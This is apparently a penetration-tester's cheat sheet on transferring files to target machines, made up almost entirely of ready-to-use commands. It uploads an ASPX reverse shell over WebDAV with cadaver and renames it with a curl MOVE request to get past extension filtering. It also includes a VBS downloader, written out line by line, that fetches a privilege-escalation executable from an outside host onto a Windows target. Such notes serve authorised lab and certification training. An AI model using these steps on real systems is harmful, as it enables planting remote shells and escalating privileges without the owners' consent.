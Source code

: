 # File Transfer


## HTTP Server

> python -m SimpleHTTPServer 8000

> python3 -m http.server 8000


## SMB File Upload

**Method 1: Cadaver**

```
cadaver http://10.11.1.13/scripts/
put /root/Desktop/shellLER/phpReverseShell/aspunstage.aspx
```

**Method 2: Smbclient**

```
$ smbclient //server/share -c 'cd c:/remote/path ; put local-file'
```
Second example
```
smbclient -W ENGR_STUDENT -U EngrID //hnas.engr.uconn.edu/EngrGroupMixed
get <somethingRecieve>.tgz
put <somethingSend>.tgz
```

**Method 3: CURL**

Change file name with MOVE method. aspx -> asp

```
curl -X MOVE --header    "Destination:http://10.11.1.13/scripts/aspunstaged.asp" "http://10.11.1.13/scripts/aspunstaged.aspx"
```

## VBS Script

Code:

```
 echo Set args = Wscript.Arguments  >> webdl.vbs
 timeout 1
 echo Url = "http://1.1.1.1/windows-privesc-check2.exe"  >> webdl.vbs
 timeout 1
 echo dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")  >> webdl.vbs
 timeout 1
 echo dim bStrm: Set bStrm = createobject("Adodb.Stream")  >> webdl.vbs
 timeout 1
 echo xHttp.Open "GET", Url, False  >> webdl.vbs
 timeout 1
 echo xHttp.Send  >> webdl.vbs
 timeout 1
 echo with bStrm      >> webdl.vbs
 timeout 1
 echo 	.type = 1 '      >> webdl.vbs
 timeout 1
 echo 	.open      >> webdl.vbs
 timeout 1
 echo 	.write xHttp.responseBody      >> webdl.vbs
 timeout 1
 echo 	.savetofile "C:\temp\windows-privesc-check2.exe", 2 '  >> webdl.vbs
 timeout 1
 echo end with >> webdl.vbs
 timeout 1
 echo
```

File can be run using following syntax

```
C:\temp\cscript.exe webdl.vbs
```

